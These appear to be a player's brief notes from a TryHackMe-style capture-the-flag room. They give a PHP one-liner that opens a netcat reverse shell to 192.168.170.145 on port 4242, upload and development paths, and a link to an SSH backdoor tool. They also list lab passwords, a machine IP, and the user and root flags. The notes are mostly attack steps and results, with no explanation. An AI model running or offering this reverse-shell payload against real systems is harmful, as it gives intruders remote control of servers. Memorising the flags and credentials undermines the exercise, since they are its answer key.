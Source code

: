 <?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>

/development
/upload.php

https://github.com/NinjaJc01/ssh-backdoor

user passwd: whenevernoteartinstant

ssh passwd: november16

Machine IP: 10.10.52.6

user.txt:
thm{d119b4fa8c497ddb0525f7ad200e6567}

root.txt:
thm{d53b2684f169360bb9606c333873144d}
